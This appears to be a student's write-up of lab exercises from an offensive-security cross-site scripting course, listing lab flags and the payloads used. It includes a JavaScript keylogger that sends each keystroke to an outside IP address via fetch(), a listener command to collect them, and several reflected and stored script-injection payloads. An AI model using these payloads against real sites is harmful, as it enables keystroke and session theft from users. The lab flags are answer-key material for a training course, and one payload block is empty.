

# **Cross-Site Scripting Introduction and Discovery**

### **JavaScript Basics for Offensive Uses**
#### **Useful APIs**
#### **Lab 1.** Repeat the steps in this section to discover the flag in the user's message.

Answer - OS{typetypetype}

- Set up python http server.
```
python3 -m http.server 80
```

- Payload
```
function logKey(event){
	//console.log(event.key);
  fetch("http://192.168.45.174/?key="+event.key)
}

document.addEventListener('keydown', logKey);
```


- Now check logs, the flag can be found there.


### **Reflected Server XSS**
#### **Labs**
#### **Lab 1.** Discover and exploit the reflected server XSS vulnerability in the Donate application of the XSS Sandbox. Displaying an alert box in the victim's browser will provide a flag.

Answer - OS{StopCopyingMe}

- Payload
```
?name=<script>alert(1)</script>
```

- Capture the flag.



### **Stored Server XSS**
#### **Labs**
#### **Lab 1.** Discover and exploit the stored server XSS vulnerability in the RSVP application of the XSS Sandbox. Displaying an alert box in the victim's browser will provide a flag.

Answer - OS{IWontForgetThis}

- In the RSVP application, change the input box type of no of gues field from password to text.

- Provide username any value like admin and in password fiels test for xss, 
Try 
```
password<script>alert('hack')</script>
```
- Capture the flag.


### **Reflected Client XSS**
#### **Labs**
#### **Lab 1.** Discover and exploit the reflected client XSS vulnerability in the List application of the XSS Sandbox. Displaying an alert box in the victim's browser will provide a flag.

Answer - OS{AKADOMXSS}

- Payload
```

```

- Now just append the payload to any name.


- Click on share.


- Now paste the copied test in the url ,click on go and then render button.


### **Stored Client XSS**
#### **Labs**
#### **Lab 1.** Discover and exploit the stored client XSS vulnerability in the "Todo" application of the XSS Sandbox. Displaying an alert box in the victim's browser will provide a flag.

Answer - OS{ExExEsss}

- Add below payload to add a new Task in TODO application.

```
Test XSS<script>alert(1)</script>
```
- Click on render and now you can see the flag.

